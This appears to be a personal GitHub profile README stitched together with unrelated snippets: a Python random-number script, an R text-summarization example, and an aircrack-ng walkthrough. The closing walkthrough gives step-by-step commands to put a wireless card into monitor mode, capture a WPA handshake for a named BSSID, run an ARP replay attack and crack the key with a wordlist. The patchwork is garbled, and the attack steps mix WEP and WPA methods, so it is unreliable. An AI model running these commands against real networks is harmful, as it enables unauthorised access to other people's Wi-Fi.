 - 👋 Hi, I’m @Emmanuelmwasaru
- 👀 I’m interested in Biostatistics 
- 🌱 I’m currently learning Biostatistics 
- 💞️ I’m looking to collaborate on data science 
- 📫 How to reach me on Facebook @Emmanuel Mwasaru 
- 😄 Pronouns: He
- ⚡ Fun fact: Coolkid

<!
Emmanuelmwasaru/Emmanuelmwasaru is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
npm install
import random

def generate_random_numbers(count, start, end):
    random_numbers = []
    for _ in range(count):
        random_numbers.append(random.randint(start, end))
    return random_numbers

if __name__ == "__main__":
    count = 100  # Number of random numbers to generate
    start_range = 1  # Start of the range
    end_range = 1000  # End of the range

    random_numbers = generate_random_numbers(count, start_range, end_range)
    print("Generated Random Numbers:", random_numbers)
# Install necessary packages
install.packages("tm")
install.packages("textstem")

# Load libraries
library(tm)
library(textstem)

# Sample text
text <- "This is a sample text. It is used for demonstrating text summarization in R. This text contains multiple sentences. Text summarization is a process of creating a short and concise version of a longer document."

# Create a Corpus
docs <- Corpus(VectorSource(text))

# Preprocessing
docs <- tm_map(docs, content_transformer(tolower))
docs <- tm_map(docs, removePunctuation)
docs <- tm_map(docs, removeNumbers)
docs <- tm_map(docs, removeWords, stopwords("english"))
docs <- tm_map(docs, stripWhitespace)
docs <- tm_map(docs, lemmatize_strings)

# Convert to a Document-Term Matrix
dtm <- DocumentTermMatrix(docs)

# Calculate term frequency
term_freq <- colSums(as.matrix(dtm))
term_freq <- sort(term_freq, decreasing = TRUE)

# Display the most frequent terms
term_freq

# Summarization (basic approach by taking top n sentences)
n <- 2
sentences <- unlist(strsplit(text, "(?<=[.!?])\\s+", perl = TRUE))
scores <- sapply(sentences, function(sentence) sum(term_freq[unlist(strsplit(sentence, " "))]))
top_sentences <- sentences[order(scores, decreasing = TRUE)][1:n]

# Concatenate the summary sentences
summary <- paste(top_sentences, collapse = " ")
summary
$ sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
$ git clone https://github.com/aircrack-ng/aircrack-ng
$ cd aircrack-ng
# kill all interfering processes prior to using the aircrack-ng
airmon-ng check kill

# put your network device into monitor mode
airmon-ng start wlan0

# listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

# start listening for the handshake on a new console session
airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0

# start the ARP request replay attack
aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

# run aircrack-ng to obtain the WPA key
aircrack-ng -a2 -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
